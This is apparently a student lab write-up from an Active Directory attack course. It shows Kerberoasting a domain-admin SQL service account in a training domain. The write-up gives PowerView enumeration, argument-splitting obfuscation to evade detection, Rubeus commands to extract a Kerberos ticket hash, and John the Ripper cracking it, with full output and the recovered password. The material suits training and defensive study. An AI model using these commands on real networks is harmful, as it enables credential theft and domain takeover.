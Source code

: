 # Learning Objective 14 (Privilege Escalation - Kerberoasting)

## Tasks

1. **Using the kerberoasting attack, crack password of a SQL server service account**

---

## Solution

1. **Using the kerberoasting attack, crack password of a SQL server service account**

First, **we need to find services running with user accounts as the services running with machine accounts have difficult passwords**.

We can use PowerView or ADModule for discovering such services.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -SPN`:
```
[SNIP]

logoncount            : 39
badpasswordtime       : 11/25/2022 4:20:42 AM
description           : Account to be used for services which need high privileges.
distinguishedname     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : svc admin
lastlogontimestamp    : 2/14/2025 1:45:16 AM
userprincipalname     : svcadmin
samaccountname        : svcadmin👤
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/14/2025 9:45:16 AM
instancetype          : 4
usncreated            : 40118
objectguid            : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 5:06:37 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {2/14/2025 3:40:35 PM, 2/14/2025 2:40:35 PM, 2/14/2025 1:40:35 PM, 2/14/2025 12:40:35 PM...}
serviceprincipalname  : {MSSQLSvc📌/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
givenname             : svc
usnchanged            : 1139619
memberof              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon             : 2/14/2025 4:58:23 AM
badpwdcount           : 0
cn                    : svc admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid        : 513
pwdlastset            : 11/14/2022 9:06:37 AM
name                  : svc admin

[SNIP]
```

Neat! The `svcadmin`, which is a domain administrator has a SPN set! Let's kerberoast it!

**Rubeus and John the Ripper**

We can use Rubeus to get hashes for the `svcadmin` account.

**Note that we are using the `/rc4opsec` option that gets hashes only for the accounts that support RC4.** This means that if `This account supports Kerberos AES 128/256 bit encryption` is set for a service account, the below command will not request its hashes.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
```
❌

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\ArgSplit.bat`:
```
[!] Argument Limit: 180 characters
[+] Enter a string: kerberoast📌
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

```
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

`echo %Pwn%`:
```
kerberoast
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
[SNIP]

[*] Action: Kerberoasting📌

[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
[*] Target User            : svcadmin👤
[*] Target Domain          : dollarcorp.moneycorp.local
[+] Ticket successfully imported!
[*] Searching for accounts that only support RC4_HMAC, no AES
[*] Searching path 'LDAP://dcorp-dc.dollarcorp.moneycorp.local/DC=dollarcorp,DC=moneycorp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svcadmin)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!msds-supportedencryptiontypes:1.2.840.113556.1.4.804:=24))'

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\hashes.txt

[*] Roasted hashes written to : C:\AD\Tools\hashes.txt📌
```

We can now use John the Ripper to brute-force the hashes.

Please note that you need to remove ":1433" from the SPN in `hashes.txt` before running John.

`type C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CF...

[SNIP]
```

`notepad C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CFE78D3...

[SNIP]
```

`C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*ThisisBlasphemyThisisMadness!!🔑 (?)
1g 0:00:00:00 DONE (2025-02-14 08:05) 10.10g/s 20686p/s 20686c/s 20686C/s energy..mollie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
🚩

---
---
